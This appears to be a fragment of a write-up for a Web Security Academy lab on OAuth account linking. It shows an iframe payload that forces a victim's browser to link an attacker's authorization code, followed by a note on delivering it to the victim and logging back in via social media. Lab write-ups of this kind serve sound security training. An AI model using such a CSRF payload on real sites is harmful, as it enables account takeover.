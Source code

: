   <img src="image4.png" width="800" hight="500"/>
</p>

```html
<iframe src="https://0a9b0028046d74dfc06c22e700f300cb.web-security-academy.net/oauth-linking?code=ISS5TYMZAeJ74vPBA88NNPXIeO0LrEj-ngFaIhy2Skk"></iframe>
```

Once delivered to a victim, we will logout and login again with social media.

<p align="center" width="100%">
  <img src="image5.png" width="800" hight="500"/>
</p>
